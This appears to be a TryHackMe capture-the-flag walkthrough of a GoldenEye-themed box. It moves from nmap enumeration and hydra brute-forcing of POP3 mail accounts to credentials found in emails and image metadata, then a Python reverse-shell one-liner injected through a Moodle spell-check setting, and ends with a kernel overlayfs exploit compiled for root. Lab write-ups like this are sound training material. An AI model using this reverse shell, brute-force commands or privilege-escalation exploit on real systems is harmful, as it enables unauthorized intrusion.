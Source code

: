 ## Medium THM box

`Machine ip: xx.xx.xxx.xx`

## Enumeration
Running a nmap scan on the target we get the open ports:

`Open Ports:
25 stmp
80 http
55007 pop3
55006 
`

`Password from website source:
73 110 118 105 110 99 105 98 108 101 72 97 99 107 51 114
InvincibleHack3r --> decoded`

Search and replace for converting to a form that some online decoder can understand.

The site says navigate to a /sev-home/, so do that. Now we're at a login screen.

We know the username is boris from the source and we decoded the password.

`User: boris Password: InvincibleHack3r (For the http port)`

These creds don't work when we try to login into pop3 port [pop3 command line](https://electrictoolbox.com/pop3-commands/). So, we use hydra to brute-force the password there.

We don't anything for boris so we try again with natalya.

`hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://10.10.28.74:55007`

We get a hit for the natalya 

`User: natalya Password: bird (For the pop3 port)`

After connecting to the pop3 port we use pop3 commands to get to the information we need.

list command lists the files and retr \<filename\> displays them. We see 2 mails but the first one is useless and the second one contains some creds.

`User: xenia Password: RCP90rulez!(For the http port)`

We got the password but the mail said: 
`And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....
Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.`

## Exploitation

So we add \<machine_ip\> severnaya-station.com/gnocertdir to our /etc/hosts to access it on the browser.

Now logging as xenia in that website. According to tryhackme, we need to find another user. He is named doak. We try to brute-force his password again using hydra. 

`User: doak Password: goat(For the pop3 port)`

We login into doak's pop3 account and read his emails too to get his http site password.

`User: dr_doak Password: 4England!(For the http port)`

Logging into the website using these creds we poke around even further. We find a file called s3cret.txt.

It redirects us to a `/dir007key/for-007.jpg` saying there is something juicy there.

It's an image with some stegnography probably. Running exiftool command, we see the image description is base64. Decoding it we get 'xWinter1995x!'

we can assume this is the password for the admin user as that was the only other account in dr_doak.

We log into admin account using these creds.

`User: admin Password: xWinter1995x!`

Tryhackme told us to look for Aspell. We can search for it in the search bar below and we find a place to add a python reverse shell :).
We also need to change the spell engine to *PspellShell* that's after googling I found out that that's what's compatible with python.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Listening to the port on our system we get a shell. To find the kernal version we use `uname -a`.

## Priv Esc

The kernel version is 3.13.0-32-generic which is a very outdated kernel so exploit.db must have a priv esc script. There is [one](https://www.exploit-db.com/exploits/37292) and then download it onto the vm server
using python simple http server and wget.

`python -m SimpleHTTPServer`

Trying to compile the code using `gcc` we find that `gcc` is not installed but cc is.

So all we need to do is to replace `gcc` by `cc` in the exploit.

`sed -i "s/gcc/cc/g" overlayfs.c`

Now we compile and run this to get root access.

`cc overlayfs.c -o root_access`
`./root_access`

We get some warnings but we can ignore them for now as we're root already.

Now nagvigate over to the root floder and `cat` the hidden root flag.

# And We're Done!
